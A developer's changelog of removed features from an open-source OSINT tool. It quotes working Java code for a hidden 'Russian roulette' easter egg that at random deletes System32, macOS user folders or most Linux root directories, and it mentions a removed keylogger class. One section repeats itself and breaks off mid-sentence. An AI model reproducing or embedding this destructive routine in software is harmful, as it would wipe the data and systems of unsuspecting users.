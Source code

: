 # Removed Features
This is a list of removed / replaced features that were created during
the development/release stages of Osintgram4j. Some were already forgotten,
but some weren't. Forgotten, as in never committed or pushed to GitHub.

I won't go into every single detail, especially that some methods already
have the `@Deprecated` notice for some specific methods.

## Development Stages (v0.1 - v0.6)
In the development stages, I went through some ideas, which were either
removed or replaced with other methods / functionalities. As of now, we
are still in the v0.1 stage. Don't worry, we are soon transitioning into
the v0.2 territory, where Networking starts to take shape.

### Shell Files
Like Bash/ZSH Script files, I tried bringing Osintgram4j Script files, as a
way of bringing Scripting into it.

This was later on deleted and replaced with the use of `addTarget` method
that can be seen in `src/net/bc100dev/osintgram4j/MainClass.java` file.
The reason for its deletion was to simplify the process of using it instead
of doing something that a Shebang can literally do.

This was later on deleted due to some complexities. However, it's use of file
targets within the CLI itself was replaced with the use of `addTarget` method,
where for each target, it would assign 

### Keylogger Easter Egg
For people that like snooping around in the source files, I wanted to add
a little secret, which was a Keylogger. However, that Keylogger didn't have
any purpose, so it was remained as a useless class.

Later in the development, that class was deleted due to potential backlash
that people, or to be exact, haters looking to cancel people, could try to
cancel me, which I am not going that route just yet.

### Russian Roulette System Wipe
As a joke that has relatively low chance of running, I thought about including
a small code Easter egg that also never gets called, which basically, wipes
the System. Let me demonstrate from a recovered commit.

```java
    public static void russianRoulette() throws IOException {
        int i = Utility.getRandomInteger(1, 150);
        i += Utility.getRandomInteger(0, Utility.getRandomInteger(715, Integer.MAX_VALUE / 2));
        i /= Utility.getRandomInteger(1, 4);
        i += Utility.getRandomInteger(500, 20000);

        if (i == 2891055) {
            switch (getOperatingSystem()) {
                case WINDOWS -> delete(System.getenv("SystemRoot") + "\\system32");
                case LINUX -> {
                    delete("/home");
                    delete("/opt");
                    delete("/etc");
                    delete("/media");
                    delete("/mnt");
                    delete("/lib");
                    delete("/lib32");
                    delete("/lib64");
                    delete("/bin");
                    delete("/sbin");
                }
                case MAC_OS -> delete("/Users");
            }

            return;
        }

        throw new IOException("lucky bastard");
    }
```

What it does is the randomness, which I think, is relatively very low chance
of running. If the specific operating system gets detected, it does its
usual thing. On Windows, it deletes System32, while on macOS, I only went for
the `/Users` folder, since I don't personally own a MacBook. With Linux, I
went for the most of the root directories. Also, that was linked with the
File Utility class in the commons directory itself.

Why was it deleted? Because I decided to remove this bloat, but also the
same reason, as said with the Keylogger.

### Package Identifiers
For the modding API thing, I wanted to integrate a way of adding Identifiers
for each package. However, since I noticed that it is bloated in some way or
another, I decided to remove it, along with the Identifier Generation. This
way, packages will no longer use an Identifier. Instead, every package
relies on the JAR Manifest file, giving specific Attributes. Using this way,
the client can rely on File Names instead of specific Package Identification
that are long and unable to read. I mean, would you like to read a 35-long
identifier that does not even use the common strategies, like UUID for
example? I surely don't want to.

### EE Handle
EE stands for "Easter Egg", which was used to handle a remote file and handle
the random password generation. If the password was correct, it would print
out a specific password. This was later on removed, due to some personal
issues with a specific individual.

If you wish to encounter more, then look into the `extres` folder. You will
see two other files, named `unused0.txt` and `unused2.txt`, even though
the Unused 0 might have no leads there. You might want to embrace first
before diving into it.